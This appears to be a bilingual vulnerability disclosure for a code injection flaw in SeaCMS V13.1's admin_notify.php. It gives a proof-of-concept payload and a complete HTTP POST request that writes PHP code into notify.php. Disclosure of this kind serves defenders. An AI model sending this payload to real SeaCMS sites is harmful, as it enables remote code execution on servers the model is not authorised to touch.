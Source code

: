 # SeaCMS V13.1 code injection
*SeaCMS V13.1 代码注入*
## Environment
*环境*
V13
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103209.png)
https://www.seacms.net/
## Analysis
*分析*
Injecting malicious code into the notification module of the member message notification module in the backend user module, the unsafe handling of the "notify" variable in the file "admin_notify. php" resulted in the injection of code.
*在后端用户模块的成员消息通知模块的通知模块中注入恶意代码，对文件“admin_notify.php”中的“notify”变量的不安全处理导致代码注入*
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103256.png)
## Verify
*证明*
Backend: User ->Member Message Notification ->Notification
*后台:用户->会员消息通知->通知*
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103505.png)
```php
;phpinfo();//
```
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103543.png)
Successfully injected code
*成功注入代码*
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103552.png)
```http
POST /d3kdjs/admin_notify.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Origin: http://localhost
Connection: close
Referer: http://localhost/d3kdjs/admin_notify.php
Cookie: iconSize=16x16; jenkins-timestamper-offset=-28800000; PHPSESSID=fv6b5117hu9kv7fbepjs9ie1n2; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=4

notify1=";phpinfo();//&notify2=&notify3=
```
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103842.png)
Malicious code successfully written to notify.chp file.
*恶意代码成功写入notify.php文件中*
![](https://github.com/v9d0g/CVEs/blob/main/images/Pasted%20image%2020241009103740.png)
